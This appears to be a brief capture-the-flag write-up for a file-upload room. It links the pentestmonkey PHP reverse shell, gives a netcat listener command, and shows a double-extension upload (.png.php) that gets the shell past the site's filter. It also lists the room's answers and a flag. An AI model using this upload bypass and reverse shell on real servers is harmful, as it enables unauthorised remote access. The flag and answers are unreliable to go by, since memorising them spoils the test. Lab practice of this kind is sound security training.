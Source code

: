 https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
sudo nc -lvnp 443

Looking at the main page source, noticed the upload functionality
view-source:http://10.10.9.194/assets/js/upload.js
Deobuscated using this site
https://deobfuscate.io/



Answer the questions below
What string of text needs adding to the URL to get access to the upload page?
Answer format: ?id=ODIzODI5MTNiYmYw

What type of file is accepted by the site?
Answer format: image

In which directory are the uploaded files stored?
Answer format: /uploads/

After a lot of tinkering got the correct syntax for the reverse shell
http://10.10.209.227/uploads/php-reverse-shell.png.php

What is the flag in /var/www/flag.txt?
Answer format: THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

